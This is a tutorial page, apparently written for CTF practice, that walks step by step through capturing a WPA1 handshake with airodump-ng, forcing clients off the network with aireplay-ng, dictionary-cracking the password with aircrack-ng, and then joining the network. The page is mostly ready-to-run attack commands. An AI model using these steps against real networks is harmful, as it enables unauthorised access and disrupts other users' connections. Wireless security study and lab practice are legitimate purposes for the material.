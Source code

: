 ## Capturing WPA1 Handshake and Cracking the Password[](#capturing-wpa1-handshake-and-cracking-the-password)

In this section, we'll walk through the steps to capture a WPA1 4-way handshake and crack the password using a dictionary attack. The attack involves starting the wireless interface in monitor mode, gathering target network information, de-authenticating clients, and using tools like aircrack-ng to perform the crack.

Prerequisites

Ensure you have the following:

A wireless card that supports monitor mode.

The necessary tools: airmon-ng, airodump-ng, aireplay-ng, aircrack-ng, and a wordlist (e.g., /usr/share/wordlists/rockyou.txt).

Step-by-Step Process

1. Start Interface in Monitor Mode and Kill Unwanted Services

Start by killing any processes that might interfere with your network scanning and then put your wireless interface into monitor mode:

```bash
airmon-ng check kill && airmon-ng start wlan0
```

`airmon-ng check kill`: Stops processes that could disrupt wireless scanning.

`airmon-ng start wlan0`: Puts your wireless interface (replace wlan0 with the correct interface name) into monitor mode (wlan0mon).

2. Gather Information About the Target Network

Next, scan for nearby wireless networks and gather information like the channel and BSSID of the target:

```bash
airodump-ng --band abg wlan0mon
```

- `airodump-ng`: Scans for nearby networks.
- `--band abg`: Scans for networks on the 2.4GHz (b), 5GHz (a), and 6GHz (g) bands.
- `wlan0mon`: Your interface in monitor mode.

This command will display a list of available networks. Identify the target network and note the **Channel** and **BSSID**.

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FK447GfIudrNJSwlfKss3%2Fuploads%2FFj0AQqOrPIEDPZIfKrnt%2Fimage.png?alt=media&token=ac4e8312-8dfc-4bfb-a248-928a0045ffb8)

To capture the WPA1 4-way handshake, specify the BSSID and channel of the target network:

```bash
airodump-ng wlan0mon --bssid <bssid> -c <channel> -w WPA1
```

- Replace `<bssid>` with the BSSID of the target network.
- Replace `<channel>` with the channel number of the target network.
- `-w WPA1`: Specifies the output filename for the captured data (WPA1-01.cap).

Keep this terminal running as it continuously monitors for the handshake.

#### 4. **Perform De-Authentication to Capture the Handshake**[](#id-4.-perform-de-authentication-to-capture-the-handshake)

In another terminal, de-authenticate clients connected to the target network to force them to re-authenticate, which will trigger the 4-way handshake:

```bash
aireplay-ng -0 5 -a <bssid> wlan0mon
```

This should cause a connected client to disconnect and reconnect, providing the necessary handshake data.

- `-0 5`: Sends 5 de-authentication packets.
- `-a <bssid>`: Specifies the BSSID of the target network.
- `wlan0mon`: The interface in monitor mode.

![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FK447GfIudrNJSwlfKss3%2Fuploads%2FmCCvFlsrOpN70N4gTWBC%2Fimage.png?alt=media&token=69d5ae4c-d122-4597-baa0-f95c36444ca2)

5. **Crack the Handshake Using aircrack-ng**

Once the handshake has been captured, you can use `aircrack-ng` to attempt to crack the password by performing a dictionary attack with a wordlist like `rockyou.txt`:

```bash
aircrack-ng -w /usr/share/wordlists/rockyou.txt WPA1-01.cap
```

- `-w /usr/share/wordlists/rockyou.txt`: Specifies the wordlist to use.

- `WPA1-01.cap`: The captured handshake file.

If the password is found in the wordlist, `aircrack-ng` will display it.

#### 6. **Connect to the Network**[](#id-6.-connect-to-the-network)

Once you've successfully cracked the password, you can connect to the target network using `wpa_supplicant`. Create a `wpa.conf` file with the network details:

```bash
network={
	ssid="TargetNetworkName"
	psk="CrackedPassword"
}
```

Then, connect with:
```bash
wpa_supplicant -c wpa.conf -i wlan0mon
```

#### 7. **Obtain an IP Address**[](#id-7.-obtain-an-ip-address)

Next, request an IP address from the DHCP server:

```bash
sudo dhclient wlan0 -v
```

### Summary[](#summary)

By following these steps, you've captured a WPA1 4-way handshake, cracked the password using a dictionary attack, and connected to the network. This method is typically used in CTF challenges to simulate wireless network penetration and test WPA1 security.

